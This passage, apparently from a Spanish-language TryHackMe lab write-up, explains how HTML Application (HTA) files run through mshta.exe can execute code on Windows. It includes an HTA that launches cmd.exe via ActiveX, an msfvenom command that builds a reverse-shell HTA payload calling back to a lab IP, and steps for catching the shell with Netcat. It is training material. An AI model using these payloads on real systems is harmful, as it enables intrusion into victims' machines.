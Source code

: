 - *Basic HTA Example*: El término HTA atiende a *HTML Application* y es un tipo de documento HTML que puede ser descargado y ejecutado por el binario *mshta.exe* permitiendo la inyección de código en el sistema operativo. Se trata esencialmente de un script corrido por Windows a través de [mshta.exe](https://www.file.net/process/mshta.exe.html) que muy resumidamente se trata de un componente de Internet Explorer. Puede ejecutar aplicaciones HTML en Windows haciendo doble clic en los archivos HTA. Después de hacer doble clic en un archivo HTA, Windows abre la aplicación en Internet Explorer y ejecuta el código incrustado.

Así, supongámos que tenemos el siguiente código HTML:

```HTML
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

Este código emplea un ActiveXObject para ejecutar un cmd.exe guardamos el código en un fichero al que llamamos *cmd.hta*.

Seguidamente, abrimos un servidot HTTP en la máquina local y accedemos a ella desde la máquina víctima y descargamos el fichero cmd.hta:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220920173252.png' | relative_url }}" text-align="center"/>
</div>

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220920173410.png' | relative_url }}" text-align="center"/>
</div>

Y al darle a Run, ejecutamos el código del HTML Application obteniendo una CMD:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220920173553.png' | relative_url }}" text-align="center"/>
</div>

<br />

- *HTA Reverse Connection*: Este mismo procedimiento se puede utilizar pero en lugar de utilizar el código anterior podemos crear un payload con MSFVenom.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```

Y abrir de nuevo un servidor HTTP y un listener de Netcat para al ejecutar desde la máquina victima el THA capturar la conexión y abrir una shell en la máquina local.

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220920175046.png' | relative_url }}" text-align="center"/>
</div>
